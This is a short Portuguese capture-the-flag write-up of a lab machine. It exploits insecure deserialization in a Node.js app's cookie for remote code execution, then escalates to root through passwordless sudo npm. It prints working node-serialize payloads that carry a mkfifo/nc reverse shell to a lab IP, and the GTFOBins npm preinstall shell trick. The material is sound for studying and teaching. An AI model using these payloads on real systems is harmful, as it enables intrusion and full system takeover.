









✧ ✧ ✧
A aplicação possui vulnerabilidades insecure deserialization permite execução remota de comandos, privilege escalation via sudo npm sem senha.
Passando um nmap vemos que temos a porta 22, 80 e 3000.

Na porta 80 temos uma página em manutenção.

E na porta 3000 temos:

Onde você manda um email e ele te retorna um cookie.

Pegando esse cookie e vendo o conteúdo temos:

O userName já definido por padrão, e o email com o nosso email passado. Então procurando algo sobre desserialização em node.js temos:
Node.js Deserialization Attack — Exploit Notes

Onde gerou um payload serializado:
{"rce":"_$$ND_FUNC$$_function() {\n require('child_process').exec('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.63.242 8443 >/tmp/f', function(error, stdout, stderr) { console.log(stdout); });\n }"}
Aperfeiçoando ele para a nossa situação temos:
{"userName":"Anonymous","Email":"_$$ND_FUNC$$_function() {\nrequire('child_process').exec('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.11.123 4444 >/tmp/f', function(error, stdout, stderr) { console.log(stdout); });\n }()"}
Então conseguimos subir uma shell:

Dando um sudo -l vemos que temos permissões sudo no npm:

Procurando um pouco temos payloads já prontos no GTFOBins:
TF=$(mktemp -d)
echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
sudo npm -C $TF --unsafe-perm i

Daí conseguimos root.
✧ Return